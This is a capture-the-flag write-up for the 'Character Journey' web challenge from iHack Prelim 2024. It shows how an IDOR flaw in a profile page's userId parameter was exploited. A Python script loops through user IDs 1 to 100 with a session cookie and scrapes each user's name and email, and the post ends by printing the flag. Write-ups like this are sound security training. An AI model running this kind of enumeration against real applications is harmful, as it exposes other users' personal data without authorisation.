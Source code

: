 ```yaml
---
title: Character Journey
description: The objective of the "Character Journey" CTF challenge is to find and retrieve the flag from a web application by exploiting IDOR.
date: 2024-07-28 00:00:00+0000
categories:
   - iHack Prelim 2024
   - CTF Writeup
tags:
   - Web
weight: 1     
---
```

# Character Journey CTF Challenge Writeup

## Challenge Information
- **Name**: Character Journey
- **Points**: 500
- **Category**: Web
- **Objective**: Find and retrieve the flag from a web application by exploiting vulnerabilities.

![Challenge](challenge.png)

## Solution
To solve the "Character Journey" challenge, follow these steps:

1. **Initial Exploration**:
   - Visit the web page and register for an account.
   - Upon registration, we observed that the application doesn't have notable functionality 
     - Feedback form does not actually send a POST request
     - YouTube link is quite useless 

2. **Investigating User Account Features**:
   - We then focused on the functionality of viewing your own account.
   - While exploring this feature, investigate the URL parameters and other user-specific data.

3. **Identifying the Vulnerability**:
   - Discover an Insecure Direct Object Reference (IDOR) vulnerability by manipulating user IDs in the URL (e.g., changing ID from 1 to 10).
   - Find that some URLs return base64 encoded text chunks.


        ![Found IDOR](<found IDOR.png>)



        ![Base64 Chunks](<base64 chunks.png>)

4. **Brute Force Exploration**:
   - Develop a script to automate the process of testing user IDs from 1 to 100.
   - Run the script to extract all base64 encoded text chunks.



      ```python
      import requests
      from bs4 import BeautifulSoup

      # Function to fetch profile information for a given userId
      def fetch_profile(user_id):
          url = f"http://character-journey.ihack24.capturextheflag.io/profile.php?userId={user_id}"
          headers = {
              "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
              "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
              "Accept-Language": "en-US,en;q=0.5",
              "Accept-Encoding": "gzip, deflate, br",
              "Connection": "close",
              "Referer": "http://character-journey.ihack24.capturextheflag.io/home.php",
              "Cookie": "PHPSESSID=be6885c0ca68d30c985be4b2fee16ebd",
              "Upgrade-Insecure-Requests": "1"
          }
          response = requests.get(url, headers=headers)
          if response.status_code == 200:
              return response.text
          else:
              print(f"Failed to fetch profile for userId: {user_id} with status code: {response.status_code}")
              return None

      # Function to parse HTML and extract username and email
      def parse_profile(html_content):
          soup = BeautifulSoup(html_content, 'html.parser')
          
          # Find <p> tags that contain the Name and Email
          name_tag = soup.find('p', text=lambda x: x and x.startswith('Name:'))
          email_tag = soup.find('p', text=lambda x: x and x.startswith('Email:'))

          if name_tag and email_tag:
              # Extract the text after "Name: " and "Email: "
              name = name_tag.get_text(strip=True).split(': ', 1)[1]
              email = email_tag.get_text(strip=True).split(': ', 1)[1]
              return name, email
          else:
              print("Could not find profile information in HTML content.")
              return None, None

      # Main function to fetch profiles for userId 0-61 and save to a file
      def main():
          with open('profiles.txt', 'w') as file:
              for user_id in range(100):
                  print(f"Fetching profile for userId: {user_id}")
                  html_content = fetch_profile(user_id)
                  if html_content:
                      name, email = parse_profile(html_content)
                      if name and email:
                          file.write(f"userId: {user_id}, Name: {name}, Email: {email}\n")
                      else:
                          file.write(f"userId: {user_id}, Profile information not found\n")
                  else:
                      file.write(f"userId: {user_id}, Failed to fetch profile\n")

      if __name__ == "__main__":
          main()
      ```

5. **Extracting the Flag**:
   - Review the extracted data from the brute force script.
   - Rather than decoding the base64 text, find the flag directly in the data without further processing.



      ![Brute Force](<brute force.png>)


      ![Flag](flag.png)


6. **Flag**: **ihack24{655b7b7ae4c62d726a568eff8914573e}**